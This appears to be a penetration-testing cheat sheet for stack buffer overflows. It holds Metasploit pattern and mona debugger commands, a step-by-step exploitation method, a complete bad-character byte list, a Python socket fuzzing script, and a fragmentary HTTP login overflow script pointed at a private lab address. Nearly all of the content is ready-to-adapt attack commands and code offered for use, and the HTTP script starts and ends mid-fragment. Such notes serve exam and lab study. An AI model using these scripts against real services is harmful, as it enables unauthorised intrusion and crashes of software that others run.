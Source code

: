 Buffer OverFlow

BUFFER OVERFLOW COMMANDS
msf-pattern_create -l 4000
msf-pattern_offset -l 4000 -q 39794338
!mona modules
!mona find -s “\xFF\xE4” –m “<MODULE>”

BUFFER OVERFLOW METHODOLOGY
https://www.thecybermentor.com/buffer-overflows-made-easy

Steps:
	1. Crash The Application: Send "A"*<NUMBER>
	2. Find EIP: Replace "A" w/ pattern_create.rb -l LENGTH
	3. Control ESP: !mona findmsp (@crashtime), pattern_offset.rb, !mona pattern_offset eip
	4. Identify Bad Characters
	5. Find JMP ESP
	6. Generate Shell Code
Exploit

"\x00" is bydefault badchar 

BADCHARS

badchars=( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

IMMUNITY DEBUGGER MONA COMMANDS
!mona findmsp (find offset when app crashes)
!mona pattern_offset eip
!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin
!mona find -s "\xFF\xE4" -m <PROGRAM/DLL> 
!mona jmp -r esp
!mona jmp -r esp -cpb '\x00\x0a\x0d'

BUFFER OVERFLOW FUZZING SCRIPT
#!/usr/bin/python
import socket
RHOST = ""
RPORT = ####
buf = "A" * 4000
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
print "Sending buf"
s.send(buf + '\n')

BUFFER OVERFLOW OVER HTTP SCRIPT
except 

		content = "username=" + inputBuffer + "&password=A"

		buffer = "POST /login HTTP/1.1\r\n"
		buffer += "Host: 192.168.139.10\r\n"
		buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
		buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
		buffer += "Accept-Language: en-US,en;q=0.5\r\n"
		buffer += "Referer: http://192.168.139.10/login\r\n"
		buffer += "Connection: close\r\n"
		buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
		buffer += "Content-Length:  "+str(len(content))+"\r\n"
		buffer += "\r\n"

		buffer += content

		s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

		s.connect(("192.168.139.10", 80))
		s.send(buffer)

		s.close()

modify as needed
